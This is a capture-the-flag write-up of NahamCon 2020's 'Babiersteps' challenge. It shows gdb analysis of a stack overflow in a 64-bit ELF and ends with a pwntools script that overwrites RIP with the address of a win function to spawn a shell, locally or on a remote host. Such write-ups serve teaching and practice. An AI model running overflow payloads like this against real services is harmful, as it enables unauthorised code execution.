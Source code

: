 This is my writeup for the "Babiersteps" challange from NahamCon 2020.

After downloading the babier file we run the ```file ./babiersteps``` command wich gives the folowing output:

![alt text](images/file.png?raw=true "File")

We can see that the barbier file is a 64 bit elf file.

When we run a obj dump (```objdump ./babiersteps -d```). we can see that the program contains a win function at address ```0x4011c9.```

![alt text](images/win.png?raw=true "win")


After making the file executable and running we are shown the text "Everyone has heard of gets, but have you heard of scanf?".
If we input some random characters the program wil seemingly do nothing and shut down. If we give the program an input thats over 120 bytes the program wil return a segment fault.

![alt text](images/segfault.png?raw=true "seg")

If we open the program in gdb can get a better look at what is going on. ```gdb ./babiersteps``` (Note: I am using geff extention for gdb).
When we imput a lot of A's (300) we can see that we clotter most of the stack but not the RIP (instruction pointer) wich we want to control and point to our win function.

![alt text](images/clotter.png?raw=true "clotter")

Because the file is a 64 bit elf the RIP address has to be a 48 bit canonical address wich means the address has to be in the range ```0x0000000000000000``` to ```0x00007FFFFFFFFFFF``` and ```0xFFFF800000000000``` to ```0xFFFFFFFFFFFFFFFF```. otherwise the address wont be able to clutter the RIP. If we input a bunch of A's we are overwriting the rip with a non-canonical address. If we however run the program with 120 A's up to the point of getting the segfault(offset) and add a 6 bytes canonial address of 6 B's ```0x0000424242424242``` to the end we can see we can control the RIP.

![alt text](images/control.png?raw=true "control")

Now all we have to do is point the address to our win function and hope we get the flag. Our win function was located at ```0x4011c9.```.
We can use pyton to give us the addres in little endian ```python3 -c 'import struct;print(struct.pack("<I",0x4011c9))'```. We then need to add \x00\ 5 times to make the address canonical. If we input this address after our offset we can point to the win function.

I made a little python script using pwn tools to handle the program localy or remotly.

```
import argparse
from pwn import *
import struct;

offset = b"A"*120
rip = b"\xc9\x11@\x00\x00\x00\x00\x00\x00"

payload = b"".join([offset,rip]) 

parser = argparse.ArgumentParser()
parser.add_argument(
        '--host',
        type=str,
        help='The host name or IP address to connect to'
        )
parser.add_argument(
        '--port',
        type=int,
        help='The port for the service to connect to'
        )
parser.add_argument(
        '--file',
        type=str,
        help='Elf file to exploit'
        )

args = parser.parse_args()

if args.host and args.port:
        p = remote(args.host, args.port)

elif args.file and not(args.host) and not(args.port):
        elf = ELF(args.file)
        libc = elf.libc
        p=process(elf.path)

else:
        print("No arguments supplied")
        exit()


p.recvuntil('?')
p.sendline(payload)
p.interactive()
```

If we run this program localy (```python3 payload.py --file ./babiersteps```) we can see that the win function spawned a shell for us and we can cat out the flag.

![alt text](images/flag.png?raw=true "flag")

Thanks for reading, Suggestions & Feedback are appreciated !